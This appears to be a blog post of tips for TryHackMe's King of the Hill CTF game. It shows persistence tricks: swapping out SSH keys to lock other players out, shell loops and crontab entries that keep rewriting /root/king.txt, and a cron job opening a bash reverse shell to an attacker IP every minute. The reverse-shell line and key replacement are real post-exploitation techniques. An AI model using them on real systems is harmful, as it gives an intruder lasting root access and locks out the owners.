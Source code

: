 ## Simple Tricks I use While Playing King Of The Hill

Hey guys, hope you're doing well :) 

For those who are playing [TryHackMe](https://tryhackme.com) [king of the hill](https://www.tryhackme.com/games/koth)... 

These are some tips/tricks I usually do

First thing I do when I get into the machine is deleting ssh keys and put mine

To generate id_rsa & id_rsa.pub you could use ssh-keygen

Then, enter the machine using `ssh -i id_rsa remote_username@remote_host` 

using this simple trick only you can enter the machine using ssh...

To automate putting ur username inside king.txt and make sure that there's no username except yours,u can create a simple script to do that 

```
#!/bin/bash
while :
do
        eval "echo [usernameHere] >> /root/king.txt"
        eval " > /root/king.txt"
done

#this script is created in 1 min :P
```
or by simpler way
```
while [[ $(cat /root/king.txt) != "[usernameHere]" ]]; do echo "[usernamehere]" >> /root/king.txt; done

#this script is created in less than minute :P

```

also u can add your username automatically by putting inside /etc/crontab

`* * * * * echo "[usernameHere]" >> /root/king.txt >/dev/null 2>&1`

and below command can be used to get persistence on the system but run it after getting root access so every minute you can get shell as root in case of someone is trying to kill your terminal else if you do this without getting root you'll get shell as normal user not as root user
`* * * * * /bin/bash -c "/bin/bash -i >& /dev/tcp/[IP_ADDR]/4444 0>&1"`

So this one trick is to check, what loop is running if it is not yours then how you can find that loop and kill it<br>
<i><b>so for this you can check proccesses running on top in "top" command the running proccesses will be there with their PIDs</b></i>
and then...<br>
`kill -9 PID_OF_LOOP`

<i><b>there is another version of htop is also available in our machines that is "htop" but "htop" may not be available on koth machines</b></i>


#SimpleButEffective
#staySafe
